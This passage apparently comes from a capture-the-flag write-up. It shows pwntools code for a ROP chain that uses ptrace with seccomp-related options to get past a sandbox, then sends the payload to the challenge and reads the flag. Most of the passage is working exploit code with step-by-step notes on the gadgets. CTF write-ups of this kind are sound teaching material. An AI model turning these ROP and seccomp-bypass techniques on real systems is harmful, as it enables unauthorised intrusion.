 ```python
payload += p64(buffer + len(payload) + 0x8 * 3)
payload += p64(mov_ptr_rdi_rax)
payload += p64(pop_rsi)
payload += p64(0xdeadbeef)
payload += p64(pop_rdx_r12)
payload += 2 * p64(0)
payload += p64(xor_r10d)
payload += p64(pop_rdi)
payload += p64(buffer)
payload += p64(add_r10_rdi_0x20)
payload += p64(pop_rdi)
payload += p64(PTRACE_SEIZE)
payload += p64(pop_rax)
payload += p64(constants.SYS_ptrace)
payload += p64(syscall)

payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(libc.sym.waitpid)

payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(constants.SYS_exit)
payload += p64(syscall)

assert(len(payload) < 0x200)

p.sendlineafter(b'> ',b'1')
p.sendafter(b'> ',payload)
```

Next the parent ROP chain:

1. Depending on the kernel version either `PTRACE_O_TRACESECCOMP` or `PTRACE_O_SUSPEND_SECCOMP` will need to be used and this needs to be stored in `r10`.  There was no `pop r10` gadget, so I ended up using `xor r10d, r10d` followed by `add r10, qword ptr [rdi + 0x20]`.  To use these gadgets I had `rdi` set to the buffer and the `r10` argument offset `0x20` in.  The rest is padding to the canary, the canary, and then padding to the end of the stack frame.
2. Call `ptrace`, however, we have to dereference `child`.  Using `mov rax, qword ptr [rax]` and then the same trick of self-moding the ROP chain (see child ROP chain) puts the PID of the child into `rsi`.  `r10` is describe in step 1.  All that is left is `rdx` and `rdi` (easy).  `libc.sym.ptrace` did not work for me; using a `syscall` gadget was necessary.
3. `wait` for it ... (the child and the flag).
4. `exit`.


```python
p.sendlineafter(b'> ',b'3')
p.recvuntil(b'effective!\n')
_ = p.recvuntil(b'}').decode()
p.close()
print(_)
```
